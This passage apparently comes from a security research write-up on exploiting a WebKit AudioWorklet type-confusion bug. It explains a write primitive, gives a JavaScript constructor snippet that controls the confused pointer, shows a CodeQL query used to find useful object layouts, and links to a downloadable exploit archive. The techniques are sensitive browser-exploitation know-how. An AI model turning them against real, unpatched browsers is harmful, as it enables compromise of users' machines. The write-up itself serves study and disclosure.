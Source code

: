 ```c++
void AudioWorkletProcessor::setProcessCallback(std::unique_ptr<JSCallbackDataStrong>&& processCallback)
{
    m_processCallback = WTFMove(processCallback);
}
```

Since `m_processCallback` is a `unique_ptr`, overwriting a nonzero value in this position will cause a destruction, so we must be careful to avoid a crash. This aside, we can roughly think of the primitive as:
```c++
(void ***)(object)[3][3] = makeUnique<JSCallbackDataStrong>(...);
```

In addition to this, note that `AudioWorkletGlobalScope::createProcessor` returns `&jsProcessor.wrapped()` as a `RefPtr<AudioWorkletProcessor>`. This reference is held by the `AudioWorkletNode` we constructed on the main thread and is used to call `AudioWorkletProcessor::process` during audio rendering. Although we won't use it in our exploit, this type-confused access is probably useful for exploitation. We do however need to note that reference counted types, such as `AudioWorkletProcessor`, store the reference count in their first 8 bytes. Constructing and holding this `RefPtr` will increment this value, so our exploit must ensure that this side-effect is safe.

### Type Feng Shui

A typical strategy to exploit a type confusion is to search for object types whose fields overlap the confused type in a useful way. We started down this line with a simple observation: we can control the value returned by `jsProcessor.wrapped()` using inline properties. Offset 0x18 of a custom `JSObject` contains the second inline property, so we can make `wrapped()` return a pointer to some value `val` using the following processor constructor:

```javascript
registerProcessor('test-processor', class {
  constructor() {
    return {fill: 1, wrapped: val};
  }
});
```

Using this, our primitive becomes 
```c++
(void **)(&val + 0x18) = makeUnique<JSCallbackDataStrong>(...);
```

Now we statically search for `JSValue`s which have useful fields at offset 0x18. A simple CodeQL query run on the JavaScriptCore database can accomplish this:

```javascript
import cpp

predicate hasFieldAtOffset(Class c, Field f, int offset) {
  // c directly has a field at the given offset
  c.getAMember() = f and offset = f.getByteOffset()
  or
  // c has a field which internally holds another field at this offset
  exists(Field hf | hf = c.getAField() | hasFieldAtOffset(hf.getType(), f, offset - hf.getByteOffset()))
  or
  // c has a base class which has a field at this offset
  exists(Class bc | bc = c.getABaseClass() | hasFieldAtOffset(bc, f, offset - c.getABaseClassByteOffset(bc)))
}

from Class c, Field f
where c.getABaseClass*().getName() = "JSCell" // c inherits from JSCell
      and hasFieldAtOffset(c, f, 24)
select f
```


[patch commit]: https://github.com/WebKit/WebKit/commit/d56afe6836db40cdea22eaa6b47c56a6197a8bab
[ohjin exploit]: https://gist.github.com/ujin5/6b9a32eedc5a39d714a3a72f06efffe5
[webaudio api]: https://developer.mozilla.org/en-US/docs/Web/API/Web_Audio_API
[audio worklet api]: https://developer.mozilla.org/en-US/docs/Web/API/AudioWorklet
[liveoverflow]: https://liveoverflow.com/topic/browser-exploitation/
[liveoverflow butterfly]: https://liveoverflow.com/the-butterfly-of-jsobject-browser-0x02/
[jitsploitation primitives]: https://googleprojectzero.blogspot.com/2020/09/jitsploitation-two.html
[jitsploitation pac]: https://googleprojectzero.blogspot.com/2020/09/jitsploitation-three.html
[jitsploitation]: https://googleprojectzero.blogspot.com/2020/09/jitsploitation-one.html
[webkit heap hardening]: https://labs.f-secure.com/archive/some-brief-notes-on-webkit-heap-hardening/
[bmalloc]: https://github.com/WebKit/WebKit/tree/main/Source/bmalloc
[idl]: https://developer.mozilla.org/en-US/docs/Glossary/IDL
[butterfly diagram]: /assets/images/2021-05-25/butterflies.png
[overwrite diagram]: /assets/images/2021-05-25/overwrite.png
[exploit]: /assets/files/2021-05-25/pwn.zip
